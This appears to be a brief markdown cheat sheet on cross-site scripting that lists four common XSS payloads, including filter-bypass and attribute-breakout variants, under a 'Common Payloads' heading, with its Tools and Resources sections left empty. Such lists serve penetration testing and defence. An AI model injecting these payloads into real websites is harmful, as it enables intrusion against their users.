 # XSS Injection

## Common Payloads
	<script>alert('XSS')</script>
	<scr<script>ipt>alert('XSS')</scr<script>ipt>
	"><script>alert('XSS')</script>
	"><script>alert(String.fromCharCode(88,83,83))</script>

## Tools

## Resources & Write Ups
